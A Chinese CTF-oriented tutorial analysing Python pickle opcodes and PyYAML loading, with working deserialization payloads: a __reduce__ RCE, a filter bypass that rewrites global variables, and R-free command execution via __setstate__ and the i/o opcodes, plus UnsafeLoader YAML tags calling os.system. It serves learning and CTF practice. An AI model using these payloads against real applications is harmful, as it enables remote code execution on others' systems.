# CTF中Python pickle+yaml反序列化深入分析 - 先知社区

CTF中Python pickle+yaml反序列化深入分析

- - -

# Pickle的作用

1、pickle包是python用于进行反序列化和序列化的，用c进行编写，因此运行速度效率非常高。Python还有其它的一些序列号库如PyYAML、Shelve等，但是都存在由于编码不恰当导致的反序列化漏洞。

2、在编程语言中，各类语言要存储一些复杂的内容，比如对象，数组，列表等，以便随时写和取，会是一件比较麻烦的事情。因此都会想办法将这些复杂的东西如对象序列化成易于存储和导出的东西，就比如Pickle会将其存储为一串字符串，然后取出的时候将字符串还来即可。

例子：

```plain
import pickle


class B():
    def __init__(self, num, passwd):
        self.num = num
        self.passwd = passwd


x = B('123', 'password')
print(pickle.dumps(x, protocol=0))
print(pickle.dumps(x, protocol=2))
print(pickle.dumps(x, protocol=3))
print(pickle.dumps(x))
# b'ccopy_reg\n_reconstructor\np0\n(c__main__\nB\np1\nc__builtin__\nobject\np2\nNtp3\nRp4\n(dp5\nVnum\np6\nV123\np7\nsVpasswd\np8\nVpassword\np9\nsb.'
# b'\x80\x02c__main__\nB\nq\x00)\x81q\x01}q\x02(X\x03\x00\x00\x00numq\x03X\x03\x00\x00\x00123q\x04X\x06\x00\x00\x00passwdq\x05X\x08\x00\x00\x00passwordq\x06ub.'
# b'\x80\x03c__main__\nB\nq\x00)\x81q\x01}q\x02(X\x03\x00\x00\x00numq\x03X\x03\x00\x00\x00123q\x04X\x06\x00\x00\x00passwdq\x05X\x08\x00\x00\x00passwordq\x06ub.'
# b'\x80\x04\x95:\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x01B\x94\x93\x94)\x81\x94}\x94(\x8c\x03num\x94\x8c\x03123\x94\x8c\x06passwd\x94\x8c\x08password\x94ub.'
```

> 可以看到通过dumps()打包后的对象存储为的字符串看上去十分复杂。目前pickle有四个版本0，2，3，4,5不同的版本中存储的结果都不相同，这里默认是最高4版本，一般0号版本更易于人类阅读。2号版本与3号版本差别很小，4号版本多了一些东西，但是本质上没有太大改动，并且pickle对不同的版本都是兼容的，无论是上面版本，通过pickle.loads()都能够进行还原。

# pickle反序列化

pickle.loads()即pickle反序列化，调用的是底层的\_Unpickler类。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211032-1ffbb6c4-b6cc-1.png)

> 从源码可以看出load和loads的区别，load()能够用于在文件解析序列化的信息，而loads()则是用于从序列化字节流中解析对象信息，但是无论是那个，最终都丢给了\_Unpickler.load()进行反序列化的处理。

至于Unpickler在反序列化的过程中，究竟在干些什么事情，可以从它的源码中简略知道，它主要用于维护栈和存储区，栈是核心的数据结构，所有的数据结构几乎都在栈中，当前栈主要维护栈顶的信息，而前须栈用于维护下层信息。存储区相当于内存，用于存储变量，是数组，以下标为索引每一个单元存储东西。

# pickletools和反序列化流程

pickletools是python自带的pickle调试器，通过pickletools可以很清楚的看到pickle编译一个字符串的完整过程，利用它可以更加清晰的了解pickle是如何对字符串进行解析的，以上面代码为例子：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211037-232379a4-b6cc-1.png)

```plain
0: \x80 PROTO      4
    2: \x95 FRAME      58
   11: \x8c SHORT_BINUNICODE '__main__'
   21: \x94 MEMOIZE    (as 0)
   22: \x8c SHORT_BINUNICODE 'B'
   25: \x94 MEMOIZE    (as 1)
   26: \x93 STACK_GLOBAL
   27: \x94 MEMOIZE    (as 2)
   28: )    EMPTY_TUPLE
   29: \x81 NEWOBJ
   30: \x94 MEMOIZE    (as 3)
   31: }    EMPTY_DICT
   32: \x94 MEMOIZE    (as 4)
   33: (    MARK
   34: \x8c     SHORT_BINUNICODE 'num'
   39: \x94     MEMOIZE    (as 5)
   40: \x8c     SHORT_BINUNICODE '123'
   45: \x94     MEMOIZE    (as 6)
   46: \x8c     SHORT_BINUNICODE 'passwd'
   54: \x94     MEMOIZE    (as 7)
   55: \x8c     SHORT_BINUNICODE 'password'
   65: \x94     MEMOIZE    (as 8)
   66: u        SETITEMS   (MARK at 33)
   67: b    BUILD
   68: .    STOP
highest protocol among opcodes = 4
```

> 可以看到反编译出来的过程有很多\\x这样奇奇怪怪的字符，在pickle源码中可以十分清晰的看到这些字符代表的不同的含义，并且不同的版本会有不一样的字符。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211044-27500d26-b6cc-1.png)

那么这些操作符究竟代表着什么意思，机器看到这些操作符又会进行怎么样的操作呢，下面就来一条一条指令的解读分析一下。

1、首先读取到字符串的第一个字节即\\x80，这个操作符在版本2中被假如，用于辨别pickle对应的版本信息，读取到\\x80后会立即读取\\x04，代表着是依据4版本pickle序列化的字符串。

2、随后继续读取下一个字符\\x95和\\x58，这是在pickle4后引入的新概念，与具体的功能无关，用于某些情况下进行性能的优化，\\x95表示引入了一个新的帧，58表示这个帧的大小为58字节，但是这个58是放到8字节里面作为32字节存储的，因此在序列化后会有多的\\x00

3、读取\\x8c，表示将一个短的字符压入栈中，这个字符就是后面读取的\_\_main\_\_

4、\\x94表示将刚才读取的短字符\_\_main\_\_即当前栈顶的数据暂存到一个列表中，而这个列表被叫做memo，通过组合使用memo和栈扩大功能

5、随后继续读取\\x94和\\x01B即压入一个短字符即空对象B入栈顶，将栈顶暂时存储到列表memo中。

6、再读取\\x93，表示某个堆栈，可以GLOBAL操作符根据名称读取堆栈中的变量

7、车轮继续向前，读取到)操作符，表示把一个空的tuple压入当前栈中，处理完这个操作符后会遇到\\x81，表示从栈中弹出一个元素，记为args，再弹出一个元素记为cls,接下来执行cls.\_\_new\_\_(cls,\*args)，简单来说就是利用栈中弹出的一个参数和一个类，通过参数对类进行实例化，然后将类压入栈中，这里指的就是被实例化的B对象，目前是一个空对象。

8、继续分析读到了}，表示将空的dict字典压入栈中，然后遇到MARK操作符，这个mark操作符干的事情被称为load\_mark：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211111-37630e3e-b6cc-1.png)

> 从代码可以看出它操作是，把当前栈作为整体即作为list，压入到前序栈中，然后把当前栈清空，至于为何存在前序栈和当前栈两部分，正如前面所说前序栈保存了程序运行至今的（不在顶层的）完整的栈信息，而当前栈专注于处理顶层的事件。

有load\_mark，自然会有pop\_mark()，用于与它相反的操作。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211119-3c13063c-b6cc-1.png)

> 记录当前栈的信息，返回，并弹出前序栈的栈顶覆盖当前栈，因此可知，load\_mark()和pop\_mark()主要用于两个栈之间进行不同的切换，用于栈管理。

9、随后则是继续指定读取字符串并压入栈中存储起来的操作，分别进行了四次，当前栈的顶到顶分别为num，123，passwd，password，而前序栈只有一个元素，则是我们是空B实例和一个空的dict。

10、继续往下走，遇到了u操作符,它主要用于给实例赋值操作，详细过程如下：

（1）调用pop\_mark，将当前栈的内容记录起来，然后将将前序栈覆盖掉当前栈，即执行完后，会有一个item=\[num，123，passwd，password\]，当前栈存放的则是空B实例和空dict。

（2）拿到当前栈的末尾元素，即那个空的dict，两个一组的读取item里面的元素，前者作为key后者作为value，则此时空的dict变为{'num':'123','passwd':'password'}，所以当前栈存放的就是空B实例和这个字典

11、车轮继续向前，遇到了b字符即build指令，它将当前栈存进state然后弹掉，将当前栈的栈顶记为inst，弹掉，利用state的值更新实例inst，简单来说就是通过dict中的数据实例化B对象的值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211124-3f4aaad0-b6cc-1.png)

> 从代码中可以看到，如果inst中拥有\_\_setstate\_\_方法，则会将state交给setstate()方法进行处理，否则就将inst中的内容，通过遍历的方法，将state的内容合并到inst\_dict字典中。

12、最后全部做完后，当前栈就剩下了完整的B实例，然后读取下一个.指令代表着STOP，即反序列化结束。

# 漏洞产生(**reduce**)

简单了解了pickle反序列化的大概原理和流程，下面就可以分析下漏洞产生的原理。在CTF比赛中，pickle反序列化大多数都可以直接利用\_\_reduce\_\_方法，可以通过\_\_reduce\_\_构造恶意的字符串，从而在被反序列化的时候，导致\_\_reduce\_\_被执行，从而操作RCE。我们以下面代码为例：

```plain
import os
import pickle
import pickletools

class B():
    def __init__(self, num, passwd):
        self.num = num
        self.passwd = passwd
    def __reduce__(self):
        return (os.system,('dir',))

# x = B('123', 'password')
# payload=pickle.dumps(x)
# print(payload)
# pickletools.dis(payload)
pickle._loads(b'\x80\x04\x95\x1b\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x03dir\x94\x85\x94R\x94.')
```

首先可以确定的是，代码可以触发RCE导致dir命令的执行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211133-4450bf60-b6cc-1.png)

从源码中可以看到，\_\_reduce\_\_方法实际上对应的指令码是R：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211140-48b701e0-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211144-4b208c76-b6cc-1.png)

对反序列化的过程进行调试，会发现它进入了load\_reduce()方法，从此方法不难发现原因

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211147-4d339c10-b6cc-1.png)

> 此函数即R指令码对应的函数，它做的操作主要是将栈顶标记位args，然后取当前栈栈顶的元素标记位func，然后以args为参数，执行函数func，再把结果压进了当前栈中，即func对应例子中的system，而\*args对应的是dir，导致了RCE。

# R指令的绕过

很显然的一件事情就是\_\_reduce\_\_函数之所以能够达到RCE，原因是R操作码对应的方法load\_reduce()的不恰当所产生的，那么我们只要把操作码R给过滤掉，\_\_reduce\_\_导致的RCE显然就不能够继续执行，那么该如何进行绕过呢，那么就得把目标放在其它方向的操作码中，就比如我们的C指令操作码，主要用于通过find\_class方法获得一个全局变量。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211156-528c92c0-b6cc-1.png)

我们以下方的代码为例：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211200-54db8a90-b6cc-1.png)

```plain
import pickle, base64
import A   

class B():
    def __init__(self, num, passwd):
        self.num = num
        self.passwd = passwd

    def __eq__(self,other):
        return type(other) is B and self.passwd == other.passwd and self.num == other.num

def check(data):
    if (b'R' in data):
        return 'NO REDUCE!!!'
    x = pickle.loads(data)
    if (x != B(A.num, A.passwd)):
        return 'False!!!'
    print('Now A.num == {} AND A.passwd == {}.'.format(A.num, A.passwd))
    return 'Success!'

print(check(base64.b64decode(input())))
```

> 题中禁用了R指令，可以通过C指令完成简单的登录绕过功能,此处A文件中随意设置一个num和passwd

1.  我们首先来看看一个正常B类进行序列化后的效果

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211206-582908da-b6cc-1.png)

> 可以看到序列化后的结果为

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(\x8c\x03numK\x01\x8c\x06passwd\x8c\x05aiwinub.'
```

> 将序列化的结果稍微进行改动，将26和39对应的K指令码改为C的指令码，这里的K指令码表示将1字节的无符号整形数据压入栈中，就可以实现登录绕过。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211221-615ff706-b6cc-1.png)

> 可以看到改动后的指令将26和44变成了c指令引用全局变量，即上面A类中的变量实现了绕过。n

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211226-643deab4-b6cc-1.png)

这里的C指令主要基于find\_class方法进行全局变量的寻找，假如find\_class被重写，只允许c指令包含\_\_main\_\_这个module，该如何绕过。

由于GLOBAL指令引入的变量，是在原变量中的引用，在栈中修改它的值，会导致原变量的值也被修改，因此就可以做以下操作：

（1）通过\_\_main\_\_.A引入这个module  
（2）把一个dict压进栈中，其内容为{‘num’: 6, ‘passwd’: ‘123456’}  
（3）执行b指令，其作用是修改\_\_dict\_\_中的内容，在\_\_main\_\_.A.num和\_\_main\_\_.A.passwd中的内容已经被修改了  
（4）将栈清空，也就是弹掉栈顶  
（5）照抄正常的B序列化之后的字符串，压入一个正常的B对象，num和passwd分别为6和123456即可通过。

接下来就是修改，首先将原来得到的值进行一定的修改

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(\x8c\x03numK\x01\x8c\x06passwd\x8c\x05aiwinub.'
```

首先要引入\_\_main\_\_.A这个module，并将一个dict压入栈中b'\\x80\\x04\\x95+\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x8c\\x08\_\_main\_\_\\x8c\\x01B\\x93)变为b'\\x80\\x04\\x95+\\x00\\x00\\x00\\x00\\x00\\x00\\x00c\_\_main\_\_\\nA\\n}

随后将栈清空，将压入正常的B，  
\\x81}(\\x8c\\x03numK\\x01\\x8c\\x06passwd\\x8c\\x05aiwinub.'变为(Vnum\\nK\\x06Vpasswd\\nV123456\\nub0c\_\_main\_\_\\nB\\n)\\x81}(\\x8c\\x03numK\\x06\\x8c\\x06passwd\\x8c\\x06123456ub.'

完整的payload为

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00c__main__\nA\n}(Vnum\nK\x06Vpasswd\nV123456\nub0c__main__\nB\n)\x81}(\x8c\x03numK\x06\x8c\x06passwd\x8c\x06123456ub.'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211234-68bed242-b6cc-1.png)

可以看到确实绕过成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211239-6bda73a0-b6cc-1.png)

> 简单来说就是先将A压入栈中，并传入设定好的dict()字典，这样A的值也会被改变，随后再清空栈，压入与A相同的B类的值即可完成绕过。

像以上这种只是通过全局变量来进行绕过，那么有没有可能在不出现R指令的情况下进行命令执行呢，上面我们说过BUILD指令在load\_build函数中，假如inst拥有\_\_setstate\_\_方法，则将state交给\_\_setstate\_\_方法来处理，否则会将其合并到dict中。也就是说，我们可以将\_\_setstate\_\_造为os.system()等命令执行函数，然后将state变为要执行的命令，依旧能够达到命令执行的效果。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211243-6e605d9c-b6cc-1.png)

我们依旧拿原来得到的序列化串进行修改，在B类实例化中添加\_\_setstate\_\_的值为os.system，然后再压入要执行的命令即可，修改后的payload为

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(V__setstate__\ncos\nsystem\nubVdir\nb.'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211251-72fdada0-b6cc-1.png)

> 传入这个payload，首先stack弹出栈顶即为将state值赋为\_\_setstate\_\_这个字典，然后进入state的字典循环，将弹出的key即\_\_setstate\_\_和value即system合并到inst\_dict中，到第二次循环时，inst就能够取到\_\_setstate\_\_的值，然后此时stack为B实例化对象列表，弹出的值为dir，然后就会进入setstate(state)执行system(dir)

可以看到命令执行是成功的，这里报错是因为没有给B实例实例化值，但是不妨碍命令的执行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211259-77ac5dba-b6cc-1.png)

## 通过i和o指令触发

观察i指令所使用到的函数，i指令主要用于BUILD和push一个实例化的类，主要依赖于函数find\_class()，与它相关函数如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211305-7b8f3092-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211309-7ddfb3a8-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211312-7fd01afe-b6cc-1.png)

> 可以看到在load\_inst()函数中会调用\_instantiate()方法，而\_instantiate()动态的实例化了一个类，假如令kclass为system，然后令\*arg为我们要执行的命令，也可以触发RCE，而pop\_mark()则是前序栈中的值赋给当前栈并获取当前栈的内容。

依旧使用以上的payload进行修改：

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(Vdir\nios\nsystem\n0c__main__\nB\n)b.'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211347-946d9fea-b6cc-1.png)

> 简单来说，通过i指令将os.system推入inst，进而使得find\_class(os,system)找到kclass为os.system()，然后再通过pop触发pop\_mark()获取前序栈的dir内容，进入实例化类后变成了system(dir)触发了命令执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211353-981907d8-b6cc-1.png)

命令执行成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211357-9a6034c6-b6cc-1.png)

同理o指令也可以，o指令也是可以用于实例化一个类，与它相关的函数为：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211401-9d0f3afa-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211405-9f36bc5e-b6cc-1.png)

> 这里同样也是控制\_\_instantiate()函数的参数和类名，不同的是这里的类名和参数都由当前栈中弹出，因此可直接将os.system和dir一起压入栈中，经过Pop\_mark()后返回的就是一个system和dir的列表，随后cls经过pop(0)弹出的是先进的system，剩下的栈即args就为dir。进而触发RCE

修改payload为如下：

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(cos\nsystem\nX\x03\x00\x00\x00diro0b.'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211412-a32972e8-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211416-a5a83ea0-b6cc-1.png)

命令执行成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211421-a88a1a44-b6cc-1.png)

# Yaml

既然pickle研究了，python还有一种序列化和反序列化的操作是通过yaml进行了，yaml也存在着能够直接RCE的危险，不过后来官方对Yaml进行反序列化的时候进行了一定的修复和限制，增加了一个Loder参数来对反序列化中调用的类型进行了限制。

下面我们来简单调试，分析一下yaml反序列化触发RCE的流程：

```plain
import yaml

print(yaml.load('!!python/object/new:os.system ["dir"]',Loader=yaml.UnsafeLoader))
# !!python/object/apply:os.system ["calc.exe"]
# !!python/object/new:os.system ["calc.exe"]
# !!python/object/new:subprocess.check_output [["calc.exe"]]
# !!python/object/apply:subprocess.check_output [["calc.exe"]]
```

> 这里的Loader参数已经是必须设置Yaml的加载器，不设置运行是会进行报错的，有普通的Loader、Full\_Loader等等，不过还是给使用者留下了不安全能够动态创建类以及调用函数的Loader以及unsafe\_load()方法。

1、首先第一步会进入load方法中，先初始化了UnsafeLoader这个类，包括初始化解析器，构造器，读取了stream等等。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211428-accfa024-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211431-aed96300-b6cc-1.png)

2、随后就进入了get\_single\_data方法，方法中会调用get\_single\_node方法，大概就是获取到yaml中的节点，最后讲返回一个StreamStartEvent()，里面存放着yaml中要反序列化的内容。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211435-b0efdc0a-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211441-b489c498-b6cc-1.png)

3、最终经过了get\_single\_node方法返回的是一个文档的参数，里面存放着yaml中的tag以及节点的值value即我们的dir，这里是以序列节点进行存放的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211448-b8b3747e-b6cc-1.png)

4、这里获取到了节点即不为空，就会通过node来进行类似于构造器的函数，函数经过了一系列的判断，会进入到一个循环中，将我们节点的tag即'yaml.org,2002:python/name:'前缀与所有的节点前缀进行比较，如果相等则将其赋值给constructor，简单来说就是获取前缀相应的构造器，然后中止循环。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211455-bcb8d294-b6cc-1.png)

5、跳出for循环后，就会通过获取到的相应构造器进行构造，进入相应的方法之中，这里进入的是construct\_python\_object\_new方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211459-bf340f70-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211502-c1572da0-b6cc-1.png)

6、通过construct\_sequence方法获取到了节点中的value，最终都会进入到make\_python\_instance方法中，然后问题就出现在了这个方法中，在这个方法中，会通过find\_python\_name方法将tag的值通过.分割后，分离出模块的名称，将模块导入进来，这个模块必须是sys能够找到的，否则会报错，随后通过getattr方法，getattr(os,system)的形式返回os.system()

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211508-c4906496-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211513-c7766b24-b6cc-1.png)

7、继续往下走，此时的cls为返回的os.system，然后args参数又是可控的，即可我们yaml的节点的value，因此触发了RCE，当然这里会先进行Loader的判断，如果不是unsafe的Lodaer，会进行报错。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211517-c9e5bdf6-b6cc-1.png)

# 总结

无论是pickle还是yaml，能够进行RCE都是因为在反序列化过程中执行的函数部分a(b)这类的形式两个参数都可控导致的，yaml相对来说比较简单，能够直接提取tag和value进行RCE，但是pickle可能相对要繁琐一点，需要理解清每个字节码的作用，对应的执行函数以及流程，手搓opcode才能达到效果。不过yaml官网应该是对其进行了限制了，pickle好像还没有进行任何限制。
